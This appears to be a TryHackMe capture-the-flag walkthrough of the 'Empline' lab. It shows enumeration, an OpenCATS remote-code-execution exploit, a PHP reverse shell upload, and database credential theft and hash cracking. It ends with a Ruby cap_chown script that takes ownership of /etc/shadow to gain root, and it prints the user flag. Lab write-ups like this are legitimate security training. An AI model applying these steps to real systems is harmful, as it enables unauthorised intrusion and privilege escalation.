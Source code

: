 # Empline - tryhackme

## Enumeration

### Lets start with the initial scans with nmap 
```
# Nmap 7.92 scan initiated Mon Jul 18 01:07:28 2022 as: nmap -sC -sV -oN nmap 10.10.80.228
Nmap scan report for 10.10.80.228
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c0:d5:41:ee:a4:d0:83:0c:97:0d:75:cc:7b:10:7f:76 (RSA)
|   256 83:82:f9:69:19:7d:0d:5c:53:65:d5:54:f6:45:db:74 (ECDSA)
|_  256 4f:91:3e:8b:69:69:09:70:0e:82:26:28:5c:84:71:c9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Empline
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 18 01:08:00 2022 -- 1 IP address (1 host up) scanned in 32.53 seconds

```
### We got two ports open, so we tried accessing the webserver and there is a simple static page with no paramters exploitable
![004.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/004.png)

### Next we tried bruteforcing directories using gobuster
```
/index.html           (Status: 200) [Size: 14058]
/assets               (Status: 301) [Size: 313] [--> http://10.10.80.228/assets/]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.80.228/javascript/]

```
### Didn't find anything usefull, next we tried bruteforcing subdomains for that we have to add the IP to the /etc/hosts file as "empline.thm"
```
Found: job.empline.thm (Status: 200) [Size: 3671]
Found: gc._msdcs.empline.thm (Status: 400) [Size: 422]
Found: www.job.empline.thm (Status: 200) [Size: 3671]
Found: _domainkey.empline.thm (Status: 400) [Size: 422]
```

### Here we find some interesting subdomains so we added these to out /etc/hosts file, then after navigating to the job.empline.thm, we got this login page
![005.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/005.png)

## Exploitation

### Here we get to know that opncats is running, so lets find it is exploitable or not, using searchsploit we get to know that it is vulnerable to RCE
```
----------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                   |  Path
----------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenCATS 0.9.4 - Remote Code Execution (RCE)                                                                     | php/webapps/50585.sh
OpenCats 0.9.4-2 - 'docx ' XML External Entity Injection (XXE)                                                   | php/webapps/50316.py
----------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```
### So here we mirrored the exploit in our attacker machine and it gives us a unstable shell
![006.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/006.png)

### So here we see the present working directory and we tried uploading our favourite php-reverse-shell in the current working directory, and we sucessfully managed to upload the reverse-shell on the server
![007.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/007.png)
![008.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/008.png)

### Now we have to call the shell by visiting the url
```
http://job.empline.thm/upload/careerportaladd/revshell.php
```
## Initial foothold
### Here we got the shell
![009.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/009.png)

### After visiting many directories on the server we find "config.php" in /var/www/opencats directory and in the file we got the credentials of mysql database
![001.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/001.png)

### After using these creds we are sucessfully managed to enter in the database
![011.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/011.png)

### Here we got the hashes of 3 users admin,george,james 
![012.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/012.png)

### We saves these hashes in a file named hash, next we tried crack these hashes using john 
![002.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/002.png)
## User Flag
### Here we find the password for the user george, and we use these creds to log in to the webserver using ssh and we sucessfully logged in to the server
![013.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/013.png)

### Here we find the user flag
```
george@empline:~$ cat user.txt
91cb89c70aa2e5ce0e0116dab099078e
```
## Priv esc

### We went through many directories but we didn't find anything intersting, then we tried to check the /etc/crontab file, there also we didn't find anthing intersting, then we upload linpeas to the server and the output gives something interesting
![014.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/014.png)

### So we tried googling it and we find that we can change the ownership of the file using cap_chown+ep using ruby 
```
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_chown
```

### So to own the file we have to make a ruby script to change the permissions of the file, in our case we are changing the ownership of /etc/shadow file, so that we can change the root passwd and then we become root
### For that we have to built a ruby script 
```
https://apidock.com/ruby/FileUtils/chown
```

### We take the help of above article to make our ruby script, the script looks like this 
```
require 'fileutils'
FileUtils.chown 'george', 'george', '/etc/shadow'
```

### Now after running the ruby script, now lets check the ownership of the /etc/shadow file
![015.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/015.png)

### Here we can see we own the file now, next we have to change the root password, in our case we copied the hash of the user george and paste that in the root hash, so that the password of george and root will become same
### Now we tried the same password we used for user george 
![016.png](https://raw.githubusercontent.com/sigwotts/THM-Walkthrough/main/Empline/img/016.png)

## BOOOOOOOOOOMMMMMMMMM!!!!!!!!!!!!!!! We are root and here we got the root flag
# <3 by sigwotts
